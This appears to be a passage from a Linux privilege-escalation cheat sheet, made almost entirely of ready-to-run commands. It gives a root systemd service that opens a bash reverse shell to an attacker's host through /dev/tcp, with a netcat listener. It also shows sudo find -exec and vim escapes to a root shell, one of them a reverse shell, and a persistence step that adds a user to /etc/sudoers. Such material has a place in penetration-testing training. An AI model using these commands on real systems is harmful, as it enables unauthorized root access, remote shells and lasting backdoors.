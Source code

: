 ```
[Unit]
Description=reverse shell

[Service]
User=root
ExecStart=/bin/bash -c 'bash -i >&/dev/tcp/<attacker ip>/<attacker port> 0>&1'
```
### Setup The Listener
```
nc -vlp 1234
```
### Enable Shell.service File
```
/usr/bin/systemctl enable /temp/shell.service
```
### Start The Service
```
/usr/bin/systemctl start shell
```

***You Should Get the Root Shell On The Attacker Machine***


## Find Command
```
sudo -l
```

***Create a file called sample***

```
/usr/bin/find sample -exec whoami \;

sudo /usr/bin/find sample -exec bash -i \;

sudo find sample -exec bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1 \;
```


## Vim Command
```
sudo -l
```
### Non Persistence Method
```
sudo vim

:set shell=/bin/bash
:shell
```
### Persistence Method
```
sudo vim /etc/sudoers

In the User privilege specification section
<username> ALL=(ALL:ALL) ALL
```
